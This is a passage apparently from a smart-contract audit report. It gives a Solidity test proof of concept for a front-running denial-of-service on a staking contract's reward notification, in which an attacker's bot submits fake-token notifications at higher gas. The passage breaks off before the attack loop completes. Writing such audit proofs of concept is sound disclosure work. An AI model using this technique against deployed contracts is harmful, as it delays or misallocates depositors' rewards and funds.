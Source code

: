cause a loss of funds for those users due to bad accounting.

### PoC

Insert this test in `tests/Deposit.t.sol`

```solidity

 function testDosRewardsAccrual() public {
        // this variable is intened to show the full fledge poc
        // whether you want to see the protocol output with attacker doing the attack
        // or just honest workflow with no attack
        // this will help visualize the difference between the rewards accrual

        bool attackermode = true;

        // Simulating deposits by three different users
        vm.prank(user1);
        lock.stake(100e18, user1, 0);
        vm.prank(user2);
        lock.stake(100e18, user2, 1);
        vm.prank(user3);
        lock.stake(100e18, user3, 2);

        // Distributing rewards to the staking contract
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 600e18);

        vm.prank(deployer);
        lock.notifyUnseenReward(rewardTokens);

        // Checking that rewards are allocated correctly
        vm.prank(user1);
        lock.getAllRewards();
        assertEq(_rewardToken.balanceOf(user1), 100e18);
        vm.prank(user2);
        lock.getAllRewards();
        assertEq(_rewardToken.balanceOf(user2), 200e18);
        vm.prank(user3);
        lock.getAllRewards();
        assertEq(_rewardToken.balanceOf(user3), 300e18);

        // Now after 23 hours
        vm.warp(block.timestamp + 23 hours);
        // even if 30 days are pased rewards if not notified , users balance will remain as is : Tested ✅

        // Deployer transfers the amount again and wants to notify the rewards
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 600e18);

        // rewards tokens are transferred

        // But now he initiates folllowing transaction to notify the rewards
        //         lock.notifyUnseenReward(rewardTokens);

        // however attacker's bot is noticing this transaction in mempool
        // he submits his own transaction with higher gas price with invalid tokens to notify
        // and keeps delaying the notify transaction of the deployer
        // as it just costs gas and currently eth has just 7gwei and other l2s are very cheap

        if (attackermode) {
            address[] memory fakeTokens = new address[](rewardTokens.length);
            for (uint i = 0; i < rewardTokens.length; i++) {
```